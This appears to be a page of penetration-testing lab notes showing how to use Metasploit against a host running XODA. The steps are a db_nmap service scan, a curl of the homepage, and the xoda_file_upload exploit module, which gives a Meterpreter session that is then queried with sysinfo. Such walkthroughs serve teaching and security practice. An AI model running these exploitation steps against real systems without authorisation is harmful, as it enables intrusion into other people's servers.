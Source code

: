 ```bash
workspace -a Meterpreter
```

Set the target IP address globally:

```bash
setg rhosts [targetIP]
setg rhost [targetIP]
```

Perform an Nmap scan to identify open ports and services:

```bash
db_nmap -sV [targetIP]
```

We find that there is a **web server** running on **port 80**, with no SSL certificate:

```bash
services
```

Download the homepage of the web server:

```bash
curl [targetIP]
```

Search for a known **XODA** exploit:

```bash
search xoda
```

Use the **XODA file upload exploit**:

```bash
use exploit/unix/webapp/xoda_file_upload
```

Show the available options:

```bash
show options
```

Set the **TARGETURI** to `/` because XODA is running on the root of the web server:

```bash
set TARGETURI /
```

Run the exploit to gain access:

```bash
run
```

### Interacting with Meterpreter Session

Once we have access, we can gather system information:

```bash
sysinfo
```

